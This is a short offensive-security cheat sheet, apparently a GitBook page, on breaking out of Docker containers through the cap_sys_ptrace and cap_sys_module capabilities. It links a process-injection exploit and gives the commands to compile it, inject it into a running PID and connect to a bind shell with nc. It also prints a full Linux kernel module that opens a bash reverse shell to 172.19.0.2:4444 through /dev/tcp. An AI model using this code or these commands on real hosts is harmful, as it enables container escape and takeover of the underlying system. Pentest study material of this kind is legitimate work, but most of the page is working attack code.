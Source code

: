 

## cap\_sys\_ptrace capability

if there is cap\_sys\_ptrace capability, then it is possible to inject process and create a bind shell on host it self then it is possible to jump over there via that port.&#x20;

Exploit that can be found

&#x20;[https://www.exploit-db.com/exploits/41128](https://www.exploit-db.com/exploits/41128)

{% embed url="https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c" %}

After that change that shell code inside the c file and later

```
gcc inject.c -o inject`
```

later inject with PID of serveR

```
./inject 1234
```

then connect host machine with bind shell

`nc IP PORT`



## cap\_sys\_module capability

If there is cap\_sys\_module capability inside the docker container, then that breakout can work . This capability allows the process to load kernel modules and manipulate the kernel, which can be exploited to compromise the underlying host system's security.

```
capsh --print
# if you see cap_sys_module 
```

Then check for the IP address of the docker. First of A.B.C.01 is for the host machine itself.

```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("Test");
MODULE_DESCRIPTION("Reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/172.19.0.2/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```
